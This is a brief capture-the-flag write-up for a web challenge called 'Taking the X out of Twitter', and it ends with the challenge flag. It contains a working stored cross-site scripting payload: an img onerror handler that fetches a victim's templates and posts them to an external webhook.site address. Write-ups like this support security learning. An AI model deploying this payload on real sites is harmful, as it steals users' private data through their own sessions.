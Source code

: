 # Taking the X out of Twitter

We notice that the path `/api/template/all` gives a list of all the templates a user has created.

Rooner has hidden the flag in his templates, so we launch a cross-site scripting attack to make him access `/api/template/all` and send the acquired data to us.

We create our own exploit template, let's call it exploit:
```js
<img src="/" onerror="fetch('/api/template/all/').then((res) => res.json()).then((res) => fetch('https://webhook.site/3dd2d66b-7ae2-4ef6-8c19-662382617a61', {method: 'POST', body: JSON.stringify(res)}))" );="" "="">
``` 

We post this exploit using [[exploit]], and now whenever Rooner visits his feed, this sends a json record of Rooner's templates to the webhook created by us, where we find the flag.

## Flag

    cruXipher{cr0ss_s1t3_on_th3_s4me_s1t3}
